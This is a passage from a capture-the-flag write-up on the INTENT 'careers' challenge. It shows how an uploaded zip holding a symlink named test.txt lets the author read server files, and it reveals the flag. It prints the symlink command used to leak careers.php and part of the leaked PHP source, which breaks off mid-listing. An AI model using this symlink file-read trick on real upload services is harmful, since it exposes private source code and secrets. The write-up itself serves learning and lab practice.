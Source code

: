 And by uploading this file we get:

![testflag.JPG](images/testflag.JPG)

And if we are clicking on [https://careers.chal.intentsummit.org/upload/28503d5c9ef626afe76d5a03d62445ad/test.txt](https://careers.chal.intentsummit.org/upload/28503d5c9ef626afe76d5a03d62445ad/test.txt) we get the flag:

![flag.JPG](images/flag.JPG)

Which is ```INTENT{zipfiles_are_awsome_for_pt}```.


We can create also a ```symlink``` to ```index.php```, ```careers.php``` to understand the attack.

```careers.php``` (```ln -s /var/www/html/careers.php test.txt```):
```php
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <!-- Bootstrap CSS -->
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">

    <title>V1R3F0 Team</title>
  </head>
  <body>
  
<div class="container">
    <header class="d-flex flex-wrap justify-content-center py-3 mb-4 border-bottom">
      <a href="/" class="d-flex align-items-center mb-3 mb-md-0 me-md-auto text-dark text-decoration-none">
        <span class="fs-4">V1R3F0 Team</span>
      </a>

      <ul class="nav nav-pills">
        <li class="nav-item"><a href="index.php" class="nav-link">Home</a></li>
        <li class="nav-item"><a href="careers.php" class="nav-link">Careers</a></li>
      </ul>
    </header>
  </div>
  


<?php

function endsWith($string, $endString)
```